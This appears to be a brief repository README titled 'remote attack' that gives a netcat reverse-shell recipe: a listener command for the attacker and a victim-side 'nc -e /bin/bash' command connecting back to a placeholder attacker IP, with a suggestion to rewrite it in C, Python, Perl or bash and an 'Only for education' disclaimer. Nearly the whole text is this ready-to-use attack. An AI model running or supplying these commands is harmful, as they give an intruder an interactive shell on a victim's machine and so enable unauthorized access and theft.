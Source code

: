 ## remote attack

- Attacker
```bash
nc -lnvp 77 -s 192.168.x.x
```
- Victim
```bash
nc -e /bin/bash 192.168.x.x 77
```
## Description:
192.168.x.x = attacker IP.
You can customize this in C, Python, Perl, or bash programs. =)

## WARNING:
Only for education!!!
